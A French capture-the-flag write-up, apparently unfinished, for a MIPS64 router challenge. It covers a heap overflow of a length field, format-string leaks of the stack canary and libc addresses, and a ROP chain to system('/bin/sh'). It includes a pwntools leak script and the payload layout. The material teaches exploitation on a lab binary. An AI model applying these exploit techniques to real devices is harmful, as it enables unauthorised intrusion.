





# Description

## Inspecteur Gadget


Une mystérieuse organisation utilise des routeurs pour communiquer.

Vous, l'inspecteur gadget, avez pour mission de retrouver le contenu du dernier message.

Cette mission semble très importante, en effet, elle permettrait de déjouer une attaque sur les JO, ...

Seriez-vous à la hauteur ?

Go go
Gadget au clavier !

## Objectif de la création de ce challenge

Ce challenge a été créé pour la première édition du CTF Shutlock.
Il a pour objectif d'introduire à l'architecture MIPS64.

## Solution

### TL;DR

Vulnérabilités : 
- Reverse le malware pour trouver le mot de passe admin
- Connexion en tant qu'admin pour réécrire le champ `len` afin d'augmenter la taille de la clef wifi.
- Cette augmentation permet un rop (Return Oriented Programming) dans la fonction connect_to_WIFI()
- Format string permettant de récupérer le canary et leak de la libc

### Fichiers donnés 

- `initrd` : initial ramdisk
- `vmlinuz` : compressed image of the kernel

### Comportement général du binaire vulnérable

Nous arrivons dans ce challenge avec deux fichiers donnés et un objectif : retrouver le message à travers le routeur.

Nous commençons par nous connecter au challenge afin de voir son comportement.

````shell
└─$ nc challenges.shutlock.fr 50008
*** Welcome to Loki routeur ***
0 - QUIT
1 - Show Network Interface
2 - Shutdown or no shutdown Interface
3 - Connect to WIFI
4 - Connect to NAS
5 - Log In as Admin
#>
````

Le routeur semble appartenir à un certain `Loki` et comporte plusieurs options en boucle.

### Décompresser l'initial ramdisk

La première étape est de récupérer le binaire ainsi que la libc. 
Pour cela, nous allons décompresser l'initrd.

````shell
└─$ file initrd
initrd: gzip compressed data, max compression, from Unix, original size modulo 2^32 10983424
└─$ zcat initrd | cpio -idmv
.
bin
bin/busybox
bin/sh
bin/socat
proc
sbin
lib
lib/modules
lib/modules/6.1.0-18-5kc-malta
lib/modules/6.1.0-18-5kc-malta/kernel
lib/modules/6.1.0-18-5kc-malta/kernel/drivers
lib/modules/6.1.0-18-5kc-malta/kernel/drivers/net
lib/modules/6.1.0-18-5kc-malta/kernel/drivers/net/ethernet
lib/modules/6.1.0-18-5kc-malta/kernel/drivers/net/ethernet/intel
lib/modules/6.1.0-18-5kc-malta/kernel/drivers/net/ethernet/intel/e1000
lib/modules/6.1.0-18-5kc-malta/kernel/drivers/net/ethernet/intel/e1000/e1000.ko
lib/mips64el-linux-gnuabi64
lib/mips64el-linux-gnuabi64/ld.so.1
lib/mips64el-linux-gnuabi64/libc.so.6
lib/mips64el-linux-gnuabi64/libcap.so.2
lib/mips64el-linux-gnuabi64/libcap.so.2.66
lib/mips64el-linux-gnuabi64/libdl.so.2
lib/mips64el-linux-gnuabi64/libhistory.so.8
lib/mips64el-linux-gnuabi64/libhistory.so.8.2
lib/mips64el-linux-gnuabi64/libm.so.6
lib/mips64el-linux-gnuabi64/libnl-genl-3.so.200
lib/mips64el-linux-gnuabi64/libnl-genl-3.so.200.26.0
lib/mips64el-linux-gnuabi64/libnss_dns.so.2
lib/mips64el-linux-gnuabi64/libnss_files.so.2
lib/mips64el-linux-gnuabi64/libpsx.so.2
lib/mips64el-linux-gnuabi64/libpsx.so.2.66
lib/mips64el-linux-gnuabi64/libpthread.so.0
lib/mips64el-linux-gnuabi64/libreadline.so.8
lib/mips64el-linux-gnuabi64/libreadline.so.8.2
lib/mips64el-linux-gnuabi64/libresolv.so.2
lib/mips64el-linux-gnuabi64/librt.so.1
root
run
sys
var
var/run
init
usr
usr/bin
usr/sbin
etc
etc/init.d
etc/init.d/rcS
etc/hostname
etc/inittab
etc/fstab
etc/motd
etc/group
home
home/run.sh
home/flag.txt
home/vuln
lib64
lib64/ld.so.1
cpio: initrd not created: newer or same age version exists
initrd
21452 blocks
````

On récupère ainsi la libc.so.6 ainsi que le binaire vulnérable _vuln_.

### Déterminer l'architecture et protection du binaire

Une fois le binaire récupéré, nous allons déterminer son architecture ainsi que ses protections.

````shell
└─$ file vuln
vuln: ELF 64-bit LSB pie executable, MIPS, MIPS64 rel2 version 1 (SYSV), dynamically linked, interpreter /lib64/ld.so.1, BuildID[sha1]=6ea60cbe84bbc69711720b5b440f28bf594f69dd, for GNU/Linux 3.2.0, with debug_info, not stripped
└─$ checksec vuln
[!] Did not find any GOT entries
[*] 'ctf/home/vuln'
    Arch:     mips64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
````

C'est en mips64 little endian, dynamically linked avec des informations de debugging 

### Lancer le binaire en local 

Maintenant que nous avons déterminé son architecture, nous pouvons le lancer localement.

````shell
└─$ qemu-system-mips64el \
    -cpu    5KEf \
    -m      128M \
    -kernel vmlinuz \
    -initrd initrd \
    -append "console=ttyS0 pti=on quiet panic=1" \
    -device e1000,netdev=hacknd \
    -netdev user,id=hacknd,hostfwd=tcp::1337-:1337 \
    -nographic \
    -no-reboot
````

## Vulnérabilités

L'objectif est de trouver les vulnérabilités du binaire afin de retrouver le contenu du dernier message pour déjouer une attaque sur les JO.

On utilise ici le code source pour mieux comprendre les vulnérabilités.
On peut faire de même avec le binaire compilé en utilisant des outils de désassemblage comme IDA.

### Heap overflow 

````C
#define KEY_MAX_LENGTH 18
#define KEY_MIN_LENGTH 8
#define ADMIN_PASS "admin"
#define ADMIN_PASS_LEN 7
#define BUFSIZE 0x18

typedef struct info {
    char Wifi_Key[KEY_MAX_LENGTH];
    int len;
    bool IS_WIFI_CONNECTED;
    bool interface[3];
} info;

````



### Buffer overflow


### Format string


## But

### Fonction `Change_Wifi_Key()`
- Vulnérabilité : Heap Overflow
- Utilité : Permet de réécrire le champ len afin d'augmenter la taille de la clef wifi. Cela est possible grâce à l'erreur du paramètre _len_ dans la fonction _fgets_.

### Fonction `verify()`
- Vulnérabilité : Format string 
- Utilité : Récupérer le canary et leak de la libc

### Fonction `Connect_TO_WIFI()`
- Vulnérabilité : Buffer Overflow / ROP
- Utilité : Grâce à la précédente augmentation du paramètre len, la fonction fgets prend en paramètre une len plus grande que prévue nous permettant d'effectuer un rop


## Trouver le mot de passe admin

Afin de pouvoir réécrire le champ `len` dans la fonction `Change_Wifi_Key` il nous faut déterminer le mot de passe administrateur.
On recherche ainsi le mot de passe dans le binaire.

Une chance qu'il soit écrit en claire !

````text
.text:0000000000001B08                 daddiu  $a1, $v0, aAdmin  # "admin"
.text:0000000000001B0C                 ld      $a0, 0x18+var_18($fp)  # s1
.text:0000000000001B10                 dla     $v0, strcmp      # Load 64-bit address
````

## ROP

### Déterminer la stack

La prochaine étape est d'exécuter un ROP afin d'avoir accès aux communications.

On va lancer le binaire avec l'option -g (attendre la connexion gdb sur le port)

````shell
 qemu-mips64el -L /usr/mips64el-linux-gnuabi64/ -g 4000 ./vuln
````

Afin de simplifier le debugging, on met en place un .gdbinit

````shell
└─$ cat .gdbinit
set disassembly-flavor intel
set architecture mips
file vuln
target remote localhost:4000
info proc map
````

On va lancer gdb et mettre un breakpoint sur la fonction _Connect_TO_WIFI_

````shell
└─$ gdb-multiarch
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
The target architecture is set to "mips".
Reading /lib64/ld.so.1 from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
Reading /lib64/ld.so.1 from remote target...
Reading /usr/lib/debug/.build-id/2d/d7befeb3ac950759b1c65e296978a929e2a560.debug from remote target...
Reading /lib64/d7befeb3ac950759b1c65e296978a929e2a560.debug from remote target...
Reading /lib64/.debug/d7befeb3ac950759b1c65e296978a929e2a560.debug from remote target...
Reading /usr/lib/debug//lib64/d7befeb3ac950759b1c65e296978a929e2a560.debug from remote target...
Reading /usr/lib/debug/lib64//d7befeb3ac950759b1c65e296978a929e2a560.debug from remote target...
Reading target:/usr/lib/debug/lib64//d7befeb3ac950759b1c65e296978a929e2a560.debug from remote target...
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
0x0000555555d74000 in ?? () from target:/lib64/ld.so.1
process 220
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
      0x555555556000     0x555555557000     0x1000        0x0  ---p
      0x555555557000     0x555555d57000   0x800000        0x0  rw-p   [stack]
      0x555555d57000     0x555555d84000    0x2d000        0x0  r-xp   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d84000     0x555555d96000    0x12000        0x0  ---p
      0x555555d96000     0x555555d99000     0x3000    0x2f000  rw-p   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d99000     0x555555d9a000     0x1000        0x0  r-xp
      0x7f91952c6000     0x7f91952c9000     0x3000        0x0  r-xp   /CTF/Shutlock-2024/Inspecteur_Gadget/vuln
      0x7f91952c9000     0x7f91952d8000     0xf000        0x0  ---p
      0x7f91952d8000     0x7f91952d9000     0x1000     0x2000  rw-p   /CTF/Shutlock-2024/Inspecteur_Gadget/vuln
gdb-peda$ break Connect_TO_WIFI
Breakpoint 1 at 0x7f91952c7628: file main.c, line 98.
gdb-peda$ c
Continuing.
Reading /lib/libc.so.6 from remote target...
Reading /usr/lib/debug/.build-id/7c/d32346eea286c06e6bbb581683a9812c824a65.debug from remote target...
Reading /lib/d32346eea286c06e6bbb581683a9812c824a65.debug from remote target...
Reading /lib/.debug/d32346eea286c06e6bbb581683a9812c824a65.debug from remote target...
Reading /usr/lib/debug//lib/d32346eea286c06e6bbb581683a9812c824a65.debug from remote target...
Reading /usr/lib/debug/lib//d32346eea286c06e6bbb581683a9812c824a65.debug from remote target...
Reading target:/usr/lib/debug/lib//d32346eea286c06e6bbb581683a9812c824a65.debug from remote target...

Breakpoint 1, Connect_TO_WIFI () at main.c:98
98      void Connect_TO_WIFI(){
````

Sur le premier terminal, on effectue la première partie du pwn :
- Augmentation du champs ``len``

````shell
*** Welcome to Loki routeur ***
0 - QUIT
1 - Show Network Interface
2 - Shutdown or no shutdown Interface
3 - Connect to WIFI
4 - Connect to NAS
5 - Log In as Admin
#>5
Enter Admin password:
#>admin
Hello you are logged as Admin
*** Admin Menu ***
0 - QUIT
1 - Quit admin menu
2 - Change WIFI Key
#ADM#>2
Enter new password
#ADM#>111111111111111111111111
New password is : 11111111111111111111111
*** Admin Menu ***
0 - QUIT
1 - Quit admin menu
2 - Change WIFI Key
#ADM#>0 - QUIT
1 - Show Network Interface
2 - Shutdown or no shutdown Interface
3 - Connect to WIFI
4 - Connect to NAS
5 - Log In as Admin
#>3
Enter Wifi Password :
#>aaaaaaaaaaaaaaaaaa
Trying to connect to Wifi ...
Wrong password
````

On récupère la stack frame ainsi que les registres :

````shell
gdb-peda$
109                 infos.IS_WIFI_CONNECTED = verify(buf);
1: x/5i $pc
=> 0x7f91952c76c0 <Connect_TO_WIFI+184>:        move    v0,s8
   0x7f91952c76c4 <Connect_TO_WIFI+188>:        move    a0,v0
   0x7f91952c76c8 <Connect_TO_WIFI+192>:        ld      v0,-32680(gp)
   0x7f91952c76cc <Connect_TO_WIFI+196>:        move    t9,v0
   0x7f91952c76d0 <Connect_TO_WIFI+200>:        bal     0x7f91952c74c8 <verify>
   0x7f91952c76d4 <Connect_TO_WIFI+204>:        nop
gdb-peda$ i r
                  zero               at               v0               v1
 R0   0000000000000000 0000000000000001 0000555555d55dd0 0000000000000000
                    a0               a1               a2               a3
 R4   0000555555fc5d40 0000000000000000 fffffffffbad2288 0000555555d55de3
                    a4               a5               a6               a7
 R8   000000000000000a 0a0a0a0a0a0a0a0a 2525252525252525 ffffffffffffffff
                    t0               t1               t2               t3
 R12  00007f91952c8110 0000000000000000 0000000000000000 6161616161616161
                    s0               s1               s2               s3
 R16  0000555555d55fe8 0000000000000001 00007f91952d8460 00007f91952c7e88
                    s4               s5               s6               s7
 R20  0000555555d55ff8 0000555555d96e80 0000000000000000 0000555555d977b8
                    t8               t9               k0               k1
 R24  0000000000000003 0000555555e91be0 0000000000000000 0000000000000000
                    gp               sp               s8               ra
 R28  00007f91952e04a0 0000555555d55dd0 0000555555d55dd0 00007f91952c76c0
                    sr               lo               hi              bad
      0000000024800030 0000000000000000 0000000000000000 0000000000000000
                 cause               pc
      0000000000000000 00007f91952c76c0
                   fsr              fir
              00000000         00738900
gdb-peda$ i r $fp
fp             0x555555d55e10      0x555555d55e10
gdb-peda$ x/50wx $sp
0x555555d55dd0: 0x61616161      0x61616161      0x61616161      0x61616161
0x555555d55de0: 0x000a6161      0x00005555      0xd9c67100      0x00dcff2c
0x555555d55df0: 0x00000001      0x00000000      0x952e04a0      0x00007f91
0x555555d55e00: 0x55d55e10      0x00005555      0x952c7e34      0x00007f91
0x555555d55e10: 0x00000001      0x00000000      0x952d8460      0x00000033
0x555555d55e20: 0x952c7e88      0x00007f91      0x952e04a0      0x00007f91
0x555555d55e30: 0x55d55e40      0x00005555      0x952c7f08      0x00007f91
0x555555d55e40: 0x55d55fe8      0x00005555      0x55d55fe8      0x00000001
0x555555d55e50: 0x55fc97c0      0x00005555      0x55fc97c0      0x00005555
0x555555d55e60: 0x952d8460      0x00007f91      0x55e0ac24      0x00005555
0x555555d55e70: 0x00000000      0x00000000      0x952c7e88      0x00007f91
0x555555d55e80: 0x00000001      0x00000000      0x55d55fe8      0x00005555
0x555555d55e90: 0x55d9a910      0x00005555
````
Une stack frame typique ressemble à : 



Crédit : https://www.sciencedirect.com/topics/computer-science/frame-pointer#:~:text=A%20stack%20pointer%20(sp)%20defines,end%20of%20the%20last%20frame.

On en conclut pour la nôtre :



- En rouge : arguments + temp
- En jaune : canary
- En bleu : regs,.. + fp
- En vert : return address

L'adresse de retour à remplacer est donc `0x7f91952c7e34`.

On peut vérifier via gdb

````shell
gdb-peda$ ni
0x00007f91952c7720      112     };
1: x/5i $pc
=> 0x7f91952c7720 <Connect_TO_WIFI+280>:        jr      ra
   0x7f91952c7724 <Connect_TO_WIFI+284>:        nop
   0x7f91952c7728 <Change_WIFI_Key>:    daddiu  sp,sp,-80
   0x7f91952c772c <Change_WIFI_Key+4>:  sd      ra,72(sp)
   0x7f91952c7730 <Change_WIFI_Key+8>:  sd      s8,64(sp)
gdb-peda$ i r ra
ra: 0x7f91952c7e34
````

Ce qui donne :

````python
buf = b'a' * 24
buf += p64(canary)
buf += b'b' * 24
buf += p64(@jumpForROP)
````

### Gadgets

#### Basique MIPS 

- `s0-s7` sont des registres généraux sauvegardés par la fonction appelée.
- `ra` est un registre pour l'adresse de retour actuelle.
	- Dans les fonctions qui appellent d'autres fonctions, `ra` sera sauvegardé sur la pile puis rechargé à la fin de la fonction => ROP.
- `jr ra` est l'instruction utilisée pour retourner.
- `v0` et `v1` sont utilisés pour retourner des valeurs depuis les fonctions.
- `a0` à `a3` sont utilisés pour les quatre premiers arguments de fonction.
- `t9` est souvent utilisé pour résoudre et appeler des fonctions externes.

_delay slot_ : chaque branchement et saut est suivi d'une instruction qui sera exécutée avant le branchement si celui-ci est pris, et qui sera également exécutée si le branchement n'est pas pris.

#### ROP Chain

##### Trouver les gadgets

Afin de trouver les gadgets, on utilise l'outil [ROPGadget](https://github.com/JonathanSalwan/ROPgadget).
Pour disposer d'un nombre conséquent de gadgets, on va rechercher ceux basés sur la libc.

Exemple pour trouver le gadget `jmp_s1`

````shell
└─$ ROPgadget --binary libc.so.6 --depth 5 | grep nop | grep "move \$t9, \$s1" | grep "jalr \$t9"
0x0000000000168844 : addiu $a0, $zero, 1 ; move $t9, $s1 ; sd $ra, 0x58($sp) ; sd $v0, 0x28($sp) ; jalr $t9 ; nop
0x0000000000174d20 : addiu $s4, $zero, 4 ; nop ; lw $a0, 0x1f4($s0) ; move $t9, $s1 ; jalr $t9 ; move $a1, $s7
[...]
0x00000000000bde04 : move $t9, $s1 ; jalr $t9 ; nop
[...]
````


##### Explication simplifiée de la ROP chain

###### Gadgets utilisés

1. **jmp_s1**
   ```asm
   move $t9, $s1
   jalr $t9
   nop
   ```
   Ce gadget copie la valeur de `$s1` dans `$t9` et appelle l'adresse contenue dans `$t9`.


2. **move_t9_s0_ld_a0_0x38**
   ```asm
   move $t9, $s0
   jalr $t9
   ld $a0, 0x38($sp)
   ```
   Ce gadget copie la valeur de `$s0` dans `$t9`, charge une valeur depuis l'adresse `$sp + 0x38` dans `$a0`, appelle l'adresse contenue dans `$t9`


3. **ra_ld_s0_s1_jmp_ra**
   ```asm
   ld $ra, 0x18($sp)
   ld $s1, 8($sp)
   ld $s0, ($sp)
   jr $ra
   daddiu $sp, $sp, 0x20
   ```
   Ce gadget charge des valeurs dans les registres `$ra`, `$s1`, et `$s0` à partir de la pile, puis retourne à l'adresse stockée dans `$ra`.

### Étapes de la ROP chain

1. **Préparation de la pile**

   Le buffer est construit pour placer les adresses des gadgets et les valeurs nécessaires aux registres sur la pile de manière ordonnée.

2. **Configuration des registres et arguments**

   - `$ra` est mis à `move_t9_s0_ld_a0_0x38`
   - `$s1` est mis à l'adresse de la fonction `system`
   - `$s0` est mis à `jmp_s1`
   - `$a0` est mis à l'adresse de la chaîne `/bin/sh`
   - Remplissage de padding pour aligner correctement les valeurs sur la pile.

### Construction du buffer

```python
buf += p64(ra_ld_s0_s1_jmp_ra_addr)      # Adresse du gadget ra_ld_s0_s1_jmp_ra
buf += p64(jmp_s1_addr)                  # Valeur pour $s0 (adresse du gadget jmp_s1)
buf += p64(system_addr)                  # Valeur pour $s1 (adresse de la fonction system)
buf += b'b' * 8                          # Padding pour aligner avec 8($sp)
buf += p64(move_t9_s0_ld_a0_0x38_addr)   # Valeur pour $ra (adresse du gadget move_t9_s0_ld_a0_0x38)
buf += b'c' * 0x38                       # Padding pour aligner avec 0x38($sp)
buf += p64(bin_sh_addr)                  # Valeur pour $a0 (adresse de la chaîne /bin/sh)
```

### Résumé du déroulement

1. **Initialisation**
   - `ra_ld_s0_s1_jmp_ra` charge les registres `$ra`, `$s1`, et `$s0` depuis la pile, et retourne à `move_t9_s0_ld_a0_0x38`.

2. **Exécution de `move_t9_s0_ld_a0_0x38`**
   - Ce gadget configure `$t9` avec l'adresse du gadget `jmp_s1`, et charge l'adresse de la chaîne `/bin/sh` dans `$a0`, puis appelle `jmp_s1`.

3. **Exécution de `jmp_s1`**
   - `jmp_s1` configure `$t9` avec l'adresse de la fonction `system`, puis appelle `system` avec `/bin/sh` comme argument.

Ainsi, cette chaîne d'instructions utilise des gadgets pour manipuler les registres et la pile, menant à l'appel de `system("/bin/sh")`, ouvrant un shell.

## Trouver les leaks

Afin de trouver les leaks, on commence par lancer le binaire en local en boucle.

````shell
socat tcp-listen:4000,reuseaddr,fork exec:"qemu-mips64el -L /usr/mips64el-linux-gnuabi64/ ./vuln"
````

On utilise ce script qui va permettre de leak les adresses grâce à la vulnérabilité format string :

````python
from pwn import * # CONNECT:

context.update(arch='mips64', os='linux', word_size=64, endian='little')

for i in range(350):
    target = remote("localhost", "4000")

    # Select admin menu
    target.recvuntil(b"#>")
    buf = b'5'
    target.sendline(buf)

    # Enter pwd
    target.recvuntil(b"#>")
    buf = b'admin'
    target.sendline(buf)

    # Select Change Wifi Key
    target.recvuntil(b"#>")
    buf = b'2'
    target.sendline(buf)

    # Enter pwd and overflow the len fields
    target.recvuntil(b"#>")
    buf = b'1' * 24
    target.sendline(buf)

    # Quit adm menu
    target.recvuntil(b"#>")
    buf = b'1'
    target.sendline(buf)

    target.recvuntil(b"#>")
    buf = b'3'
    target.sendline(buf)
    target.recvuntil(b"#>")

    payload = f'%{i}$p'.encode()
    target.sendline(payload)
    for j in range (4):
        target.recvline()

    res = target.recvline()
    print(f"{i}: {res}")
    target.close()
````

````shell
└─$ python3 find_leak.py > local_addr.txt
````

On nettoie la sortie pour rendre les adresses plus lisibles :

````shell
0: b'%0$p'
1: b'(nil)'
2: b'0x1'
3: b'(nil)'
4: b'0xfefefefefefefeff'
5: b'(nil)'
6: b'0x2525252525252525'
[...]
````

### Trouver le canary

Afin de trouver le canary, on fait une recherche ``00'`` ce qui revient à chercher les adresses où les deux derniers bits sont des 00.
On se retrouve avec 8 résultats. Or, d'après la recherche de la stack précédente, on sait que la valeur après le canary est 0x1.
La canary se trouve donc à l'offset 19 !

````txt
16: b'0x7024363125'
17: b'0x555555d977b8'
18: b'0x555555fc97c0'
19: b'0x36aec44627470300'
20: b'0x1'
21: b'0x7f4a1b8564a0'
22: b'0x555555d55d10'
23: b'0x7fdc208f5e34'
````

### Trouver un leak de la libc

Afin de trouver les addresses de la libc, on utilise gdb pour regarder les adresses correspondantes.

````shell
gdb-peda$ info proc map
process 3680
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
      0x555555556000     0x555555557000     0x1000        0x0  ---p
